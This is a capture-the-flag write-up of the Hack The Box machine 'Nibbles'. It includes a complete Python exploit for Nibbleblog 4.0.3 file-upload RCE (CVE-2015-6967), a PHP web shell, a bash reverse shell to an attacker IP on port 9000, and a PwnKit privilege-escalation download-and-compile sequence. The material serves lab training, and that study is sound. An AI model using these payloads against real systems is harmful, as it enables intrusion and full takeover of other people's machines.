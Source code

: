```yaml
---
layout: single
title: Nibbles - Hack The Box
excerpt: "Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most."
date: 2025-05-31
classes: wide
header:
  teaser: /img2/nibbles.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Abusing Nibbleblog - Remote Code Execution via File Upload
  - Abusing Sudoers Privilege [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.75
```

![](/img2/Pasted%20image%2020250531145003.png)

- Hidden directory

![](/img2/Pasted%20image%2020250531145217.png)

- Whatweb 

```bash
whatweb http://10.10.10.75/nibbleblog/
```

![](/img2/Pasted%20image%2020250531145330.png)

- Gobuster

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

![](/img2/Pasted%20image%2020250531164602.png)

![](/img2/Pasted%20image%2020250531165907.png)

![](/img2/Pasted%20image%2020250531165953.png)

![](/img2/Pasted%20image%2020250531170043.png)

- Gobuster to search php files

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php
```

![](/img2/Pasted%20image%2020250531170158.png)

## Exploitation

- Test passwords in admin panel

![](/img2/Pasted%20image%2020250531184844.png)

> We can test: admin, nibble, nibbleblog, nibbles.

> Password --> nibbles

- Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution (RCE) (CVE 2015-6967)

```python
import argparse
import requests

class Nibbleblog():
    def __init__(self,target,username,password,rce):
        self.target = target
        self.username = username
        self.password = password
        self.cmd = rce
        self.upload()

    def upload(self):
        requests.packages.urllib3.disable_warnings()
        payload = "<?php echo system($_REQUEST['rse']); ?>"
        session = requests.Session()
        login_data = {
            'username':self.username,'password':self.password,'login':''
        }
        print("Loggin in to " + self.target)
        req_url_login = session.post(self.target,data=login_data,verify=False)
    
        file_data = {
            "plugin":"my_image",
            "title":"blah",
            "position":"4",
            "caption":"test",
        }

        file_content = {
            'rse':('rse.php',payload,'application/x-php',{'Content-Disposition':'form-data'}),
        }

        url_upload = self.target + "?controller=plugins&action=config&plugin=my_image"
        req_url_upload = session.post(url_upload,data=file_data,files=file_content,verify=False)
        if req_url_upload.status_code == 200:
            print("Logged in and was able to upload exploit!")
            self.rce()
        else:
            print("Something went wrong with the upload!")
            exit()

    def rce(self):
        requests.packages.urllib3.disable_warnings()
        url_shell = self.target.replace("/admin.php","/content/private/plugins/my_image/rse.php")
        print("Payload located in " + url_shell)
        if args.shell:
            while True:
                try:
                    cmd = input("RCE: ")
                    
                    rce_data = {
                        'rse':cmd
                    }
                    req_url_rce = requests.post(url_shell,data=rce_data,verify=False)
                    print(req_url_rce.text)
                except KeyboardInterrupt:
                    print("Bye Bye\n")
                    exit()

        if args.rce:
            rce_data = {
                'rse':self.cmd
            }
            req_url_rce = requests.post(url_shell,data=rce_data,verify=False)
            print(req_url_rce.text)

if __name__ == "__main__":
    print("Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution")
    parser = argparse.ArgumentParser(description='Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution')

    parser.add_argument('-t', metavar='<Target admin URL>', help='admin target/host URL, E.G: http://nibblesrce.com/blog/admin.php', required=True)
    parser.add_argument('-u', metavar='<user>', help='Username', required=True)
    parser.add_argument('-p', metavar='<password>', help="Password", required=True)
    parser.add_argument('-rce', metavar='<Remote Code Execution>', help='-rce whoami', required=False)
    parser.add_argument('-shell',action='store_true',help='Pseudo-Shell option for continous rce', required=False)
    args = parser.parse_args()

    Nibbleblog(args.t,args.u,args.p,args.rce)
```

```bash
python3 exploit.py -t http://10.10.10.75/nibbleblog/admin.php -u admin -p nibbles -rce whoami
```

![](/img2/Pasted%20image%2020250531185738.png)

- Manual Explotation

```php
<?php
  system("whoami"); 
?>
```

![](/img2/Pasted%20image%2020250531190847.png)

![](/img2/Pasted%20image%2020250531191028.png)

- Send reverse shell

![](/img2/Pasted%20image%2020250531190847.png)

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.16.7/9000 0>&1'");
?>
```

![](/img2/Pasted%20image%2020250531191751.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- Find sudoers

```bash
find / -perm -4000 2>/dev/null 
```

![](/img2/Pasted%20image%2020250531193152.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```


![](/img2/Pasted%20image%2020250531192853.png)